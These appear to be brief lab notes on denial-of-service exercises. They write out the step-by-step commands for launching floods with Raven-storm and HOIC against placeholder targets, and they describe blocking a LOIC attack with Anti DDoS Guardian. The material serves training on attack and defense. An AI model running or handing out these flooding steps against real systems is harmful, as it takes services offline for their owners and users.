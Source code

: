 # Denial-of-Service

## Raven-storm

**Perform a DoS Attack using Raven-storm**

```bash
sudo rst
l4
ip <targetip>
port <targetport>
threads 2000
run
```

we can see in the wireshark the attack

## High Orbit Ion Cannon (HOIC)

**Perform a DDoS Attack using HOIC**

set target URL HTTP://<targetip>

power high 

Booster select GenericBoost.hoic

set threads 20

Fire TEH Lazer!

we can see in the wireshark the attack

## **Anti DDoS Guardian**

**Detect and Protect against DDoS Attacks using Anti DDoS Guardian**

for dos attack we use Low Orbit Ion Cannon (LOIC) 
used Anti DDos Guardian to block the IP